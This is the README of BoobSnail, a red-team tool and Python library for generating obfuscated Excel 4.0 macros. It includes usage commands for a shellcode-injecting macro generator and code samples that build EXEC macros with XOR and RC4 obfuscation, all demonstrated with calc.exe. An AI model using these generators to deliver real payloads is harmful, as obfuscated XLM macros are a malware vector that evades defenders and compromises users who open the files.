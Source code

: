 <p align="center">
  <img src="assets/boobsnail.png" width=300 height=300>
</p>

![License](https://img.shields.io/badge/license-MIT-lightgrey.svg)

Follow us on [Twitter](https://twitter.com/stm_cyber)!

# BoobSnail
BoobSnail allows generating XLM (Excel 4.0) macro. Its purpose is to support the RedTeam and BlueTeam in XLM macro generation.
Features:
- various infection techniques;
- various obfuscation techniques;  
- translation of formulas into languages other than English;
- can be used as a library - you can easily write your own generator.
 
## Building and Running
Tested on: Python 3.8.7rc1
```
pip install -r requirements.txt
python boobsnail.py
___.                ___.     _________             .__.__
\_ |__   ____   ____\_ |__  /   _____/ ____ _____  |__|  |
 | __ \ /  _ \ /  _ \| __ \ \_____  \ /    \__  \ |  |  |
 | \_\ (  <_> |  <_> ) \_\ \/        \   |  \/ __ \|  |  |__
 |___  /\____/ \____/|___  /_______  /___|  (____  /__|____/
     \/                  \/        \/     \/     \/
     Author: @_mzer0 @stm_cyber
     (...)
```
## Generators usage

```
python boobsnail.py <generator> -h
```

To display available generators type:
```
python boobsnail.py
```

### Examples
Generate obfuscated macro that injects x64 or x86 shellcode:
```
python boobsnail.py Excel4NtDonutGenerator --inputx86 <PATH_TO_SHELLCODE> --inputx64 <PATH_TO_SHELLCODE> --out boobsnail.csv
```

Generate obfuscated macro that runs calc.exe:
```
python boobsnail.py Excel4ExecGenerator --cmd "powershell.exe -c calc.exe" --out boobsnail.csv
```
### Saving output in Excel
1. Dump output to CSV file.
2. Copy content of CSV file.
3. Run Excel and create a new worksheet.
4. Add new Excel 4.0 Macro (right-click on Sheet1 -> Insert -> MS Excel 4.0 Macro).
5. Paste the content in cell A1 or R1C1.
6. Click Data -> Text to Columns.
7. Click Next -> Set Semicolon as separator and click Finish.

## Library usage
BoobSnail shares the excel4lib library that allows creating your own Excel4 macro generator.
excel4lib contains few classes that could be used during writing generator:
- excel4lib.macro.Excel4Macro - allows to defining Excel4 formulas, values variables;
- excel4lib.macro.obfuscator.Excel4Obfuscator - allows to obfuscate created instructions in Excel4Macro;
- excel4lib.lang.Excel4Translator - allows translating formulas to another language.

The main idea of this library is to represent Excel4 formulas, variables, formulas arguments, and values as python objects.
Thanks to that you are able to change instructions attributes such as formulas or variables names, values, addresses, etc. in an easy way.
For example, let's create a simple macro that runs calc.exe
```python
from excel4lib.macro import *
# Create macro object
macro = Excel4Macro("test.csv")
# Add variable called cmd with value "calc.exe" to the worksheet
cmd = macro.variable("cmd", "calc.exe")
# Add EXEC formula with argument cmd
macro.formula("EXEC", cmd)
# Dump to CSV
print(macro.to_csv())
```
Result:
```
cmd="calc.exe";
=EXEC(cmd);
```
Now let's say that you want to obfuscate your macro. To do this you just need to import obfuscator and pass it to the Excel4Macro object:
```python
from excel4lib.macro import *
from excel4lib.macro.obfuscator import *
# Create macro object
macro = Excel4Macro("test.csv", obfuscator=Excel4Obfuscator())
# Add variable called cmd with value "calc.exe" to the worksheet
cmd = macro.variable("cmd", "calc.exe")
# Add EXEC formula with argument cmd
macro.formula("EXEC", cmd)
# Dump to CSV
print(macro.to_csv())
```
For now excel4lib shares two obfuscation classes:
- excel4lib.macro.obfuscator.Excel4Obfuscator uses Excel 4.0 functions such as BITXOR, SUM, etc to obfuscate your macro;
- excel4lib.macro.obfuscator.Excel4Rc4Obfuscator uses RC4 encryption to obfusacte formulas.

As you can see you can write your own obfuscator class and use it in Excel4Macro.

Sometimes you will need to translate your macro to another language for example your native language, in my case it's Polish. With excel4lib it's pretty easy.
You just need to import Excel4Translator class and call set_language
```python
from excel4lib.macro import *
from excel4lib.lang.excel4_translator import *
# Change language
Excel4Translator.set_language("pl_PL")
# Create macro object
macro = Excel4Macro("test.csv", obfuscator=Excel4Obfuscator())
# Add variable called cmd with value "calc.exe" to the worksheet
cmd = macro.variable("cmd", "calc.exe")
# Add EXEC formula with argument cmd
macro.formula("EXEC", cmd)
# Dump to CSV
print(macro.to_csv())
```
Result:
```
cmd="calc.exe";
=URUCHOM.PROGRAM(cmd);
```
For now, only the Polish language is supported. If you want to use another language you need to add translations in the excel4lib/lang/langs directory.

For sure, you will need to create a formula that takes another formula as an argument. You can do this by using Excel4Macro.argument function.
```python
from excel4lib.macro import *
macro = Excel4Macro("test.csv")
# Add variable called cmd with value "calc" to the worksheet
cmd_1 = macro.variable("cmd", "calc")
# Add cell containing .exe as value
cmd_2 = macro.value(".exe")
# Create CONCATENATE formula that CONCATENATEs cmd_1 and cmd_2
exec_arg = macro.argument("CONCATENATE", cmd_1, cmd_2)
# Pass CONCATENATE call as argument to EXEC formula
macro.formula("EXEC", exec_arg)
# Dump to CSV
print(macro.to_csv())
```
Result:
```
cmd="calc";
.exe;
=EXEC(CONCATENATE(cmd,R2C1));
```
As you can see ".exe" string was passed to CONCATENATE formula as R2C1. 
R2C1 is address of ".exe" value (ROW number 2 and COLUMN number 1).
excel4lib returns references to formulas, values as addresses. References to variables are returned as their names.
You probably noted that Excel4Macro class adds formulas, variables, values to the worksheet automaticly in order
in which these objects are created and that the start address is R1C1.
What if you want to place formulas in another column or row?
You can do this by calling Excel4Macro.set_cords function.
```python
from excel4lib.macro import *
macro = Excel4Macro("test.csv")
# Column 1
# Add variable called cmd with value "calc" to the worksheet
cmd_1 = macro.variable("cmd", "calc")
# Add cell containing .exe as value
cmd_2 = macro.value(".exe")
# Column 2
# Change cords to columns 2
macro.set_cords(2,1)
exec_arg = macro.argument("CONCATENATE", cmd_1, cmd_2)
# Pass CONCATENATE call as argument to EXEC formula
exec_call = macro.formula("EXEC", exec_arg)
# Column 1
# Back to column 1. Change cords to column 1 and row 3
macro.set_cords(1,3)
# GOTO EXEC call
macro.goto(exec_call)
# Dump to CSV
print(macro.to_csv())
```
Result:
```
cmd="calc";=EXEC(CONCATENATE(cmd,R2C1));
.exe;;
=GOTO(R1C2);;
```

## Author
[mzer0](https://twitter.com/_mzer0) from [stm_cyber](https://twitter.com/stm_cyber) team!

## Articles
[The first step in Excel 4.0 for Red Team](https://blog.stmcyber.com/excel-4-0-for-red-team/)
[BoobSnail - Excel 4.0 macro generator](https://blog.stmcyber.com/boobsnail-excel-4-0-macro-generator/)
